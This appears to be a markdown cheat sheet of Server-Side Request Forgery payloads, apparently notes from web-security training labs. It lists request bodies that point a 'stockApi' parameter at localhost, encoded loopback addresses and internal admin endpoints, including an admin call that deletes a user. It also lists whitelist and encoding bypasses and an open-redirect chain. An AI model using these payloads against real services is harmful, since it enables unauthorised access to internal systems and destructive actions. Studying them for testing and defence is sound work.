 ```yaml
---
title: SSRF Examples
desc: Examples of Server Side Request Forgery.
tags: [SSRF, Web]
alts: []
website:
render_with_liquid: false
---
```


## Basic localhost

```html
POST /stock HTTP/1.1
...

stockApi=http://localhost/

<!-- IP address -->
stockApi=http://127.0.0.1/
<!-- Alternatives for 127.0.0.1 -->
stockApi=http://2130706433/
stockApi=http://017700000001/
stockApi=http://127.1/

<!-- Operate as administrator -->
stockApi=http://localhost/admin
stockApi=http://localhost/admin/delete?username=michael
<!-- Double URL encoding -->
stockApi=http://127.1/%25%36%31dmin
```

<br />

## Backend URL (192.168.0.X)

```html
POST /stock HTTP/1.1
...

stockApi=http://192.168.0.23/admin
stockApi=http://192.168.0.68:8080/admin/delete?username=michael
```

<br />

## Bypass whitelisted URL

```html
POST /stock HTTP/1.1
...

stockApi=http://localhost@vulnerable.com/
<!-- Double URL encoding -->
stockApi=http://localhost%25%32%33@vulnerable.com/
```

<br />

## Open Redirection

```html
POST /stock HTTP/1.1
...

stockApi=/post/next?path=http://localhost/admin
```